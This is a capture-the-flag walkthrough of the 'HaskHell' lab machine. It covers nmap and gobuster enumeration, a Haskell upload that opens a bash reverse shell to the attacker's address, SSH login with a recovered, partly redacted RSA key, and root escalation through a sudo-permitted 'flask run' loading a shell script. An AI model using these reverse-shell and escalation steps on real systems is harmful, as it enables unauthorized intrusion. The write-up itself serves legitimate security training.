 # Name = HaskHell

IP:
```bash
export IP=10.10.68.222
```
First of all, we need to do a port scan using `nmap`
```bash
sudo nmap -sC -sV -A -T4 -p- -v -oN scans/nmap.initial $IP
```
Command |Result
--------|-------
-sC     |Run default scripts
-sV     |Enumerate versions
-A      |Aggresive mode
-T4     |Slightly faster scan
-p-     |Scan all ports
-v      |Verbose output
-oN     |Output to file
$IP     |Scan exported IP address

Output shows us only two open ports:

Ports open:
Port |Service
-----|----------
22   |ssh
5001 |http - Gunicorn 19.7.1

Walking around the page we notice that we should upload our scripts written in Haskell, but when we click link to uploads we see a 404 error. Somewhere around should be valid upload page, time to search for it. I primarily use `gobuster`
```bash
gobuster dir -u $IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```
Command  |Result
---------|--------
dir      |Directory scan
-u       |Url to scan
-w       |Path to wordlist

I found seclists to be updated and running great. Scanning with gobuster shows us another page:

Directory found:
- /submit

Going to /submit page we found upload form, and judging from what we read earlier it woul only accept `*.hs` files, and trying with .txt file does nothing. Quick search around internet, and changig file format to .hs shows us it's true.
Looking around for suitabe code I found something that can spawn a reverse shell:

Simply write a script that spawns shell in Your favourite text editor (nano, gedit, sublime):
```haskell
import System.Process
main = do
   callCommand "bash -c 'bash -i >& /dev/tcp/YOUR_TUN0_ADDR/LPORT 0>&1'"
```
To check the tun0 ip address simply type:
```bash
ip addr show tun0
```
and the address we need to type in the script is right after `inet`.


This is just a simple reverse shell as found on [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), but preceded with bash -c to compile command.

After uploading the file it runs automatically, but don't forget to spawn `netcat` listener first!
```bash
nc -lvnp LPORT
```
Command   |Effect
----------|--------
-l        |Listen mode
-v        |Verbose output
-n        |Numeric-only
-p        |Port to listen on
LPORT     |Port number included in script

We got the reverse shell! Time to stabilize it:
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```
press Ctrl + Z to background session, then type
```bash
stty raw -echo
```
type in fg (won't show because of echo), press ENTER twice

back on the shell type 
```bash
export TERM=xterm
```
and we can press TAB to autocomplete, press arrows to go back and such. This stabilized shell resembles our normal terminal window.

We can't get anything useful searching through files except the user flag located in /prof/user.txt:

User flag:
`flag{EDITED}`

And private RSA key for user prof!
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA068E6x8/vMcUcitx9zXoWsF8WjmBB04VgGklNQCSEHtzA9cr
94rYpUPcxxxYyw/dAii0W6srQuRCAbQxO5Di+tv9aWXmBGMEt0/3tOE7D09RhZGQ
EDITED
MMn8PNqYKF3DWex59PYiy5ZL1pUG2Y+iadGfIbStSZzN4nItF5+yC42Q2wlhtwgt
i4MU8bepL/GTMgaiR8RmU2qY7wRxfK2Yd+8+GDuzLPEoS7ONNjLhNA==
-----END RSA PRIVATE KEY-----
```
To reveal the hidden files inside /home/prof/ use tag -a to ls command. I usually do this with -l tag to show list:
```bash
ls -la
```

Simply copy the key to Your machine and save it in id_rsa file. Next change file permissions to read-write for user only (600):
```bash
chmod 600 id_rsa
```
and we can log in to ssh using file with id key:
```bash
ssh prof@$IP -i id_rsa
```
Good, now we are a valid user logged on SSH, first thing I usually try to do is find out if i can use sudo commands:
```bash
sudo -l
```
This simple command shows us that indeed, we can run something:
```
User prof may run the following commands on haskhell:                                                                                 
    (root) NOPASSWD: /usr/bin/flask run
```
Running this command however, throws us an error:
```
Error: Could not locate Flask application. You did not provide the FLASK_APP environment variable.
```
Seems we need to give some variable to get it running. After a while of searching I found out that it can accept python scripts as input. That's great news! Easiest way to exploit it is simple os spawn script in python:
```bash
nano shell.py
```
```python
import os
os.system('/bin/bash')
```
Save it as python script, then add the script to variable FLASK_APP:
```bash
export FLASK_APP=script.py
```
and run as superuser
```bash
sudo /usr/bin/flask run
```
Locate root flag at /root/root.txt
Root flag
`flag{EDITED}`

And that's it! Submit the flags on the page to get points!
Congratulations!
